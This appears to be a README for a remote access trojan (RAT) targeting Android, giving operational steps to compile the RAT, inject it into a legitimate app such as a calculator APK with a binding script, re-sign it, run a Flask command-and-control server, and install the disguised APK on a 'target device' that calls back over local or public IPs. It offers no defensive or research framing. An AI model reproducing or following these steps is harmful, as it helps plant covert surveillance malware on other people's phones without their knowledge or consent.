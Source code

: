 # Instructions for Using the Modified RAT

This document provides step-by-step instructions for using the modified RAT with dual IP configuration.

## Overview

The RAT has been modified to work with both local and public IP addresses, allowing it to function in both local network and over the internet. The key modifications are:

1. The RAT now reads both LOCAL_IP and PUBLIC_IP from the config.ini file
2. It first tries to connect using the local IP, and if that fails, it switches to the public IP
3. The server automatically detects and uses the local IP address of the machine it's running on

## Step 1: Compile the Java Code

```bash
./compile.sh
```

This will:
- Compile the Java source files
- Create a JAR file
- Convert the JAR to DEX
- Generate the Smali files

## Step 2: Bind an APK

```bash
./bind_apk.sh calculator.apk
```

This will:
- Decode the APK
- Inject the RAT code
- Create a config.ini file with both local and public IP addresses
- Rebuild and sign the APK

When prompted, enter your public IP address. If you don't have a public IP or are just testing locally, you can press Enter to use the local IP for both.

## Step 3: Run the Server

```bash
./run_server.sh
```

This will:
- Install the required Python packages
- Start the Flask server on port 12000
- Display the server URLs

## Step 4: Install the APK on the Target Device

Install the modified APK on your Android device. The RAT will automatically connect to the server using either the local or public IP address, depending on which one is reachable.

## Troubleshooting

If the RAT is not connecting:

1. Make sure the server is running
2. Check that the IP addresses in the config.ini file are correct
3. Ensure that the ports are open and accessible
4. Check the device logs for any errors

## Technical Details

### Configuration File

The configuration is stored in the `assets/config.ini` file in the APK, which contains:

```ini
LOCAL_IP=192.168.1.100  # Your local IP address
PUBLIC_IP=your.public.ip  # Your public IP address
FLASK_PORT=12000  # Port for Flask API calls
RAT_PORT=12000  # Port for RAT connections
```

### Connection Logic

The RAT first tries to connect using the local IP address. If that fails (after a 5-second timeout), it automatically switches to the public IP address.

### Server Configuration

The server runs on port 12000 and is accessible both locally and over the internet. The web interface is available at `http://<your-ip>:12000`, and the RAT devices connect to `http://<your-ip>:12000/api/rat_connect`.